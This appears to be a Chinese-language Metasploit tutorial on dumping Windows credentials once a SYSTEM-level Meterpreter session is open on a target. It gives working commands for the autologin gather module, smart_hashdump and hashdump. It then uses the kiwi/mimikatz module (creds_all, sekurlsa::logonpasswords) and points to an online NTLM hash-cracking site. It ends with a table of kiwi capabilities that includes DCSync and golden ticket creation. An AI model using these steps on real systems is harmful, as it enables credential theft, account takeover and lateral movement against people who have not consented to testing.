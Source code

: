# 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

首先获得一个有**SYSTEM权限**的meterpreter

![1644493974746](https://img.gyxnb.top/img/1644493974746.png)

1 抓取自动登录账户密码

2 导出SAM数据库本地账户密码文件

3 导出密码哈希

4 使用kiwi模块获取

---

1  很多人喜欢给在计算机设置**自动登录** 我们可以通过抓取自动登录的账户密码

`run windows/gather/credentials/windows_autologin`

如果提示这证明本机并没有配置自动登录

![1644493985741](https://img.gyxnb.top/img/1644493985741.png)

2  还可以通过**导出SAM数据库**中的本地用户账号（注意需要提权到SYSTEM）

`run post/windows/gather/smart_hashdump`

![1644493996549](https://img.gyxnb.top/img/1644493996549.png)

| 用户名 | SID  | LM哈希:                          | NTLM哈希1:::                     |
| ------ | ---- | -------------------------------- | -------------------------------- |
| mb     | 1000 | aad3b435b51404eeaad3b435b51404ee | 32ed87bdb5fdc5e9cba88547376818d4 |

![1644494007420](https://img.gyxnb.top/img/1644494007420.png)

3  使用  **hashdump** 获取密码（注意需要提权到SYSTEM才能使用）

终端内输入  `run hashdump`

![1644494019182](https://img.gyxnb.top/img/1644494019182.png)

使用在线解析工具  https://www.cmd5.com/

NTLM哈希 例子：32ed87bdb5fdc5e9cba88547376818d4

![1644494029236](https://img.gyxnb.top/img/1644494029236.png)

4  使用**load kiwi**（使用kiwi模块需要system权限）

kiwi_cmd 模块可以让我们使用mimikatz的全部功能， mimikatz 的命令直接在kiwi_cmd里直接使用

5.1 终端输入  `load kiwi`

5.2 `creds_all`  直接获取密码

![1644494040171](https://img.gyxnb.top/img/1644494040171.png)

5.3 使用  `kiwi_cmd sekurlsa::logonpasswords`  获取密码

![1644494050257](https://img.gyxnb.top/img/1644494050257.png)

| ID   | kiwi参数和描述                                         |
| ---- | ------------------------------------------------------ |
| 1    | `creds_all`：列举所有凭据                              |
| 2    | creds_kerberos：列举所有kerberos凭据                   |
| 3    | creds_msv：列举所有msv凭据                             |
| 4    | creds_ssp：列举所有ssp凭据                             |
| 5    | creds_tspkg：列举所有tspkg凭据                         |
| 6    | creds_wdigest：列举所有wdigest凭据                     |
| 7    | dcsync：通过DCSync检索用户帐户信息                     |
| 8    | dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID  |
| 9    | golden_ticket_create：创建黄金票据                     |
| 10   | kerberos_ticket_list：列举kerberos票据                 |
| 11   | kerberos_ticket_purge：清除kerberos票据                |
| 12   | kerberos_ticket_use：使用kerberos票据                  |
| 13   | kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令 |
| 14   | lsa_dump_sam：dump出lsa的SAM                           |
| 15   | lsa_dump_secrets：dump出lsa的密文                      |
| 16   | `password_change`：修改密码                            |
| 17   | wifi_list：列出当前用户的wifi配置文件                  |
| 18   | wifi_list_shared：列出共享wifi配置文件/编码            |